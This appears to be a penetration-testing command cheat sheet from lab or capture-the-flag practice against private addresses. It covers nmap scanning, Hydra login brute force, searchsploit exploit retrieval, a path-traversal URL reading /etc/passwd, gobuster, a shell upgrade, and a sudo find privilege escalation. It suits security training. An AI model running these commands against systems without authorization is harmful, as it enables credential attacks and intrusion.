 # Commands Reference

> **Permission reminder:** Only run these commands on systems and networks you own or have explicit permission to test.

---

## Scanning & help

```bash
nmap --help
```

*Show Nmap help / usage.*

```bash
nmap -sV 192.168.100.100
```

*Service/version detection scan against `192.168.100.100`.*

---

## Sockets / listening services

```bash
ss -nltp
```

*List listening TCP sockets with numeric addresses and process info.*

---

## Network discovery

```bash
netdiscover -i eth0 -r 192.168.56.0/24
```

*ARP sweep on `192.168.56.0/24` via interface `eth0`.*

---

## Wordlists & wordlist tools

```text
/usr/share/wordlists
```

*Common wordlists path (Debian/Kali/Parrot).*

```bash
unzip rockyou
```

*Unzip the `rockyou` archive (adjust filename/path as needed).*

---

## Brute-forcing (Hydra)

```bash
hydra -P ./sqlinject.txt -L ./sqlinject 192.168.100.20 http-post-form '/login.php:login=^USER^&senha=^PASS^:incorreto' -I
```

*Hydra HTTP POST brute force against `192.168.100.20`.*

```bash
hydra -P ./sqlinject.txt -L ./sqlinject localhost -s 9090 http-post-form '/login.php:login=^USER^&senha=^PASS^:incorreto' -I
```

*Same Hydra attack targeting `localhost` on port `9090`.*

---

## SSH tunnels / port forwarding

```bash
ssh -i ~/.ssh/reverse_id_ed25519 -L 127.0.0.1:9090:localhost:9000 ckp_06@192.168.56.109
```

*Local port forward: binds `127.0.0.1:9090` on your machine to `localhost:9000` on the remote after connecting.*

---

## Exploit / search tools

```bash
searchsploit OpenSSH
```

*Search local Exploit-DB mirror for `OpenSSH` entries.*

```bash
searchsploit -m linux/remote/45233.py
```

*Copy the exploit `linux/remote/45233.py` to the current directory.*

---

## Raw HTTP / netcat

```bash
printf "GET / HTTP/1.0\r\n\r\n" | nc -v 192.168.56.102 80
```

*Send a raw HTTP GET to `192.168.56.102:80` using netcat (verbose).*

---

## Web resources & example URLs

```text
https://portswigger.net/web-security
```

*PortSwigger Web Security Academy — reference/training material.*

```text
http://192.168.56.102/bWAPP/rlfi.php?language=../../../etc/passwd
```

*Example LFI/RLFI URL attempting to read `/etc/passwd`.*

---

## Web content discovery (gobuster)

```bash
gobuster dir -u 192.168.56.102 -w /usr/share/wordlists/dirb/big.txt
```

*Directory brute force against `192.168.56.102`.*

```bash
gobuster dir -u 192.168.56.102 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt
```

*Same but try `php`, `html`, `txt` extensions.*

---

## Interactive / shell helpers

```bash
python3 -c "import pty;pty.spawn('bin/bash')"
```

*Spawn a pseudo-TTY shell (useful after getting a limited shell).*

---

## Privilege enumeration / escalation helpers

```bash
sudo -l
```

*List allowed `sudo` commands for the current user.*

```text
https://gtfobins.github.io/
```

*GTFOBins — collection of Unix binaries that can be abused for privilege escalation.*

```bash
# example with find:
sudo find . -exec /bin/sh \; -quit
```

*Example `find`-based escalation: runs `/bin/sh` via `sudo find` (only works if `find` allowed via sudo).*

---

## Notes

* Use these commands responsibly and legally.
* Consider adding `-v` or `-vv` to debug verbose output for tools like `ssh`, `nmap`, `hydra`, and `gobuster`.
* Adjust paths, interfaces, hosts and filenames for your environment.

---
